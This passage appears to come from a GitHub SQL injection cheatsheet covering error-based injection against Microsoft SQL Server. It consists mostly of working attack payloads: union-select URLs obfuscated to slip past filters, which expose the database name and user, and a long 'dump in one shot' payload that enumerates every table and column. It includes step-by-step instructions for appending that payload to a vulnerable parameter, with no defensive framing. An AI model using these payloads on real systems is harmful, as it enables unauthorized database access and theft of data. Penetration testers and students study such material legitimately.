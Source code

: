Retrieve database name:  
`http://domain.com/index.php?id=1' /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ 1,2,db_name(),4-- -`  
Look at the error message, the database name will be displayed there.

Retrieve username of database:  
`http://domain.com/index.php?id=1' /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ 1,2,user_name(),4-- -`  
Look at the error message, the database username will be displayed there.

## Dumping database with DIOS

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/blob/main/MSSQL%20-%20Error%20Based%20SQLi/README.md#dumping-database-with-dios)

#### What is DIOS?

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/blob/main/MSSQL%20-%20Error%20Based%20SQLi/README.md#what-is-dios)

DIOS (dump in one shot), is a long crafted payload which will dump database(), tables() and columns() and will display it in the website.

- Here is a list of MSSQL DIOS payloads:

```
;begin declare @x varchar(8000), @y int, @z varchar(50), @a varchar(100) declare @myTbl table (name varchar(8000) not null) SET @y=1 SET @x='injected by rummykhan :: '%2b@@version%2b CHAR(60)%2bCHAR(98)%2bCHAR(114)%2bCHAR(62)%2b'Database : '%2bdb_name()%2b CHAR(60)%2bCHAR(98)%2bCHAR(114)%2bCHAR(62) SET @z='' SET @a='' WHILE @y<=(SELECT COUNT(table_name) from INFORMATION_SCHEMA.TABLES) begin SET @a='' Select @z=table_name from INFORMATION_SCHEMA.TABLES where TABLE_NAME not in (select name from @myTbl) select @a=@a %2b column_name%2b' : ' from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME=@z insert @myTbl values(@z) SET @x=@x %2b  CHAR(60)%2bCHAR(98)%2bCHAR(114)%2bCHAR(62)%2b'Table: '%2b@z%2b CHAR(60)%2bCHAR(98)%2bCHAR(114)%2bCHAR(62)%2b'Columns : '%2b@a%2b CHAR(60)%2bCHAR(98)%2bCHAR(114)%2bCHAR(62) SET @y = @y%2b1 end select @x as output into Chall1 END--
```

#### How to use DIOS?

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/blob/main/MSSQL%20-%20Error%20Based%20SQLi/README.md#how-to-use-dios)

- This is a special case where DIOS store the payload into an environment variable. We will use the UNION based payload which we found the vulnerable column, this case we used:  
    `http://domain.com/index.php?id=1' /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ 1,2,3,4-- -`
    
- Delete every number and **-- -** from the payload, so the payload will look like:  
    `http://domain.com/index.php?id=1' /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/`
    
- Right in the end of the payload add the DIOS payload:
    

```
http://domain.com/index.php?id=1 /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ ;begin declare @x varchar(8000), @y int, @z varchar(50), @a varchar(100) declare @myTbl table (name varchar(8000) not null) SET @y=1 SET @x='injected by rummykhan :: '%2b@@version%2b CHAR(60)%2bCHAR(98)%2bCHAR(114)%2bCHAR(62)%2b'Database : '%2bdb_name()%2b CHAR(60)%2bCHAR(98)%2bCHAR(114)%2bCHAR(62) SET @z='' SET @a='' WHILE @y<=(SELECT COUNT(table_name) from INFORMATION_SCHEMA.TABLES) begin SET @a='' Select @z=table_name from INFORMATION_SCHEMA.TABLES where TABLE_NAME not in (select name from @myTbl) select @a=@a %2b column_name%2b' : ' from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME=@z insert @myTbl values(@z) SET @x=@x %2b  CHAR(60)%2bCHAR(98)%2bCHAR(114)%2bCHAR(62)%2b'Table: '%2b@z%2b CHAR(60)%2bCHAR(98)%2bCHAR(114)%2bCHAR(62)%2b'Columns : '%2b@a%2b CHAR(60)%2bCHAR(98)%2bCHAR(114)%2bCHAR(62) SET @y = @y%2b1 end select @x as output into Kleiton0x00 END--
```
